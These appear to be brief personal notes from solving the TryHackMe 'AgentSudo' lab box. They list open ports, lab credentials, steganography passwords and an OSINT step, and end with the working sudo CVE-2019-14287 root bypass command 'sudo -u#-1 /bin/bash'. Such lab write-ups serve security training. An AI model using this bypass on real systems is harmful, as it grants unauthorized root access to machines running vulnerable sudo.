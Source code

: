 Easy TryHackMe box: AgentSudo

`Machine IP: 10.10.x.x
`

`Open Ports:
22			## ssh brute-forcing
80			## user-agent 
21 			## vsftpd 3.0.3 
`

`User/Passwords:
chris/crystal (ftp)
james/hackerrules! (ssh)
`

`Steg:
cute-alien.jpg steghide file
password: Area51
cutie.png zip file (binwalk -e)
password to zip file: alien
`

`Osint:
Alien-autopsy: reverse image search(google images)
`


##New stuff
`Priv-esc:
sudo -l
it's a sudo vuln from 2019 CVE 2019-14287
sudo -l --> tells us we can exec /bin/bash as (james, !root)
but this can be bypassed using:
`

___sudo -u#-1 /bin/bash____
